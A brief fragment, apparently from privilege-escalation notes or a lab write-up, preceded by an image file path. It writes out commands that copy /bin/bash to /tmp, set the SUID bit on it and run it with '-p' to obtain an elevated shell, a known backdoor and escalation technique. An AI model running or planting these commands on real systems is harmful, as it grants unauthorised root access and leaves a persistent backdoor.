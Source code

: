 ```sudo cp /bin/bash /tmp; chmod +s /tmp/bash```
Will create a bash shell with an SUID. We can priv esc with:
```./tmp/bash -p```